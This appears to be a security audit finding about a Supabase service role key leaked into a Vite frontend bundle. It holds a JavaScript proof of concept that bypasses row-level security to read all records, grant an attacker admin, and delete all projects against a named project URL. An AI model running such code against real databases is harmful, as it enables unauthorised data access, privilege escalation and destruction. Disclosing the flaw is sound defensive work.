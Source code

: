 ### Exploitability:

**Any user with browser dev tools can**:
1. Open browser console
2. Access `window.__VITE_ENV__` or inspect bundled JavaScript
3. Extract `VITE_SUPABASE_SERVICE_ROLE_KEY`
4. Create Supabase client with service role key
5. **Bypass ALL RLS policies**
6. Read/modify/delete ANY data in database

### Exploit Example:

```javascript
// In browser console:
const serviceKey = import.meta.env.VITE_SUPABASE_SERVICE_ROLE_KEY

// Create admin client
const adminClient = createClient(
  'https://vfovtgtjailvrphsgafv.supabase.co',
  serviceKey  // ❌ FULL DATABASE ACCESS!
)

// Bypass RLS - read ALL users' data
const { data } = await adminClient
  .from('ideas')
  .select('*')  // ✅ Returns EVERYTHING (RLS bypassed)

// Bypass RLS - modify ANY user's data
await adminClient
  .from('user_profiles')
  .update({ role: 'admin' })
  .eq('email', 'attacker@example.com')  // ✅ Works (RLS bypassed)

// Bypass RLS - delete ANY data
await adminClient
  .from('projects')
  .delete()
  .neq('id', '00000000-0000-0000-0000-000000000000')  // ✅ Deletes EVERYTHING
```

---

## 🔥 Immediate Risks

### Data Breach:
- ✅ Attacker can read ALL users' ideas, projects, profiles
- ✅ Attacker can access deleted/archived data
- ✅ Attacker can export entire database

### Data Manipulation:
- ✅ Attacker can modify ANY user's data
- ✅ Attacker can escalate privileges (make self admin)
- ✅ Attacker can delete ANY data
